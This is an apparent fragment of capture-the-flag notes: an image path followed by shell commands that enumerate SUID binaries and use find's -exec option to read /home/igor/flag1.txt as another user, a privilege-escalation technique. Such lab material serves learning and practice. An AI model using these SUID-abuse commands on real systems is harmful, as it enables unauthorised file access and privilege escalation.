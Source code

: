 ls -l /usr/bin/find
find /home/igor/flag1.txt -exec cat {} \;

find / -user igor -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
